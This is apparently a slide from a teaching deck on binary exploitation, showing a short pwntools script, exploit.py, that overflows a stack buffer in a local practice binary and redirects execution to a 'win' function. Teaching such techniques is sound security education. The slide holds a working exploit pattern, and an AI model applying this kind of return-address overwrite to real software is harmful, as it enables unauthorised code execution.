

LET’S WRITE AN EXPLOIT
exploit.py

from pwn import *

p = process("./stack-bof")

offset = 24
win_address = 0x00000000004011a2

payload = b"A" * 24 + p64(win_address + 1)

p.sendline(payload)

p.interactive()